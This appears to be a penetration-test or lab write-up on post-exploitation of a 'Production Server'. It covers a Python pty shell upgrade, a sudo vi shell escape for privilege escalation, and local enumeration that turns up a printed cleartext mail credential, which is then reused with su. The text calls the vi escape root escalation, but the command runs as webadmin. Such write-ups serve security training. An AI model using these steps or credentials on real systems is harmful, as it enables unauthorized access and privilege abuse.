






# Post Exploit - Production Server

- [Post Exploit - Production Server](#post-exploit---production-server)
  - [Shell Upgrade](#shell-upgrade)
  - [Privilege Escalation](#privilege-escalation)
  - [Local Enumeration](#local-enumeration)

---

## Shell Upgrade

First get a pty session using python:

```
python -c 'import pty; pty.spawn("/bin/bash")'
CTRL-Z
stty -echo raw
fg
reset
export TERM=xterm
```

<br/>

## Privilege Escalation

Check `sudo` privilege of the current user `www-data`:

```
sudo -l
```

  

`/usr/bin/vi` can be used with sudo privilege as webadmin without supplying a password.

<br/>

To escalate to root privilege, we can use the following command:

```
sudo -u webadmin /usr/bin/vi -c ':!/bin/bash' /dev/null
```

  

<br/>

---

## Local Enumeration

Checking the `auth.log.1` file, an internal was found to have connected to the Production-Server as `webadmin`:

  

Checking the interface, there is only one available - likely the Production-Server is placed in the DMZ:

```
ifconfig
```

  


Checking the path `/home/webadmin/Desktop`, there is a file `Mail-Configuration` with cleartext credential:

  


```
UserName: iyer
Passwd: Iyer@123
Port: 110,143
```

Try to reuse this credential to login as iyer:

```
su iyer
```

  

As shown we get the privilege of the user `iver`. However, it does not have any sudo privilege:

  

